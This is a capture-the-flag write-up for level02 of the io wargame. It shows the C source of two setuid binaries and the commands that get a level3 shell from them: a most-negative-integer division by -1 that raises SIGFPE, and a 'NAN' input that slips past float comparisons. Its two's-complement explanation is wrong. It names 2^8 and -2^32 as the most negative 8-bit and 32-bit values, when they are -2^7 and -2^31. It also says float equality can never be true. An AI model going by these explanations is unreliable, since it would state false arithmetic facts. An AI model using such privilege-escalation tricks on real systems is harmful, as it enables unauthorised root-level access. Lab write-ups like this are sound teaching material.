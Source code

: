 ## First Look

```sh
level2@io:/levels$ ls -la level02*
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```
There are 2 different binaries one can exploit to proceed to level3.
The challenge authors are very nice to include source code for both of them.

## level02.c
```sh
level2@io:/levels$ file level02
level02: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=aebfcd8c513176fcf9243deeeeda9720979a2ec9, not stripped
```
Info: Dynamically linked, x86 architecture for Intel and ELF binary.
```C
//a little fun brought to you by bla
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	    printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}
int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");
    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
From above, we see that our goal is to call catcher. `argc` is argument count of a program. It includes the program name itself as argv[0]. Hence, the above program requires `./level02 arg1 arg2` in order to not return 1. Arg2 cannot be zero too hence, this guards against Divison by Zero Error.

When encountering a function like `signal`, we can always consult the man page `man signal`. 

```man
sighandler_t signal(int signum, sighandler_t handler);
```
From the man page, we read that a program can deliver signals in the form of `signum` to the process. This is very familiar to how one usually abort a program via `^C`. In fact, `^C` actually sends a SIGINT to the process.

Back to the code, we see that we have to somehow trigger a `SIGFPE`, floating point error. If you look closely in the man page, you will see a way to do so!

![signal man page](./images/image1.png)

Let us try out division of most negative integer by -1.

## most negative integer?
From our initial information gathering, we know that this is a 32 bit program. 
In computer, numbers are represented by bits. How about signed number? Simple. 
The most significant bit (leftmost) is reserved as *sign bit*.
The number is negative when sign bit is 1 else postive when 0.
### 8 bits example

0b00000001    = +1
0b00000010    = +2
0b00000000    = 0
0b11111111    = -1    
Huh? Why is this so? Won't one expect 0b10000001 to be the answer?
### 2's complement
To represent an integer -12. 
We first calculate what is +12  ->  0b00001100.
1. Flip the bits        0b00001100 -> 0b11110011
2. Add 1                0b11110011 -> 0b11110100 ( -12 )

The most negative number would be 2^8 (0b10000000) in the 8bits register.
Hence for 32 bit, it would be 2^32

```sh
level2@io:/levels$ python
Python 2.7.13 (default, Nov 24 2017, 17:33:09) 
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 2**32
4294967296L
```
-4294967296 is the most negative number.

```sh
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2),1029(nosu)
sh-4.3$ whoami
level3
```


## level02_alt.c
```C
/* submitted by noname */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define answer 3.141593
void main(int argc, char **argv) {
	float a = (argc - 2)?: strtod(argv[1], 0);
        printf("You provided the number %f which is too ", a);
        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```
The above took me a while to solve. You might expect keying in 3.141593 to give you an easy shell. However, the trap is that this is a floating point number. In computer science, comparison with a floating point such as `==` can be very dangerous because it can never be true. 

To solve this challenge, you need to recognize that you have to fail the first 2 condition ( a < answer ) and ( a > answer ). Lets read the man page for `strtod`

![man page strtod](./images/image2.png)

Turns out that `strtod` allows one to specific special tokens like INF for infinity and NAN for not a number. By specifying NAN, both conditions will fail regardlessly hence allowing us to go into the else function.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.3$ id
uid=1002(level2) gid=1002(level2) euid=1003(level3) groups=1002(level2),1029(nosu)
```
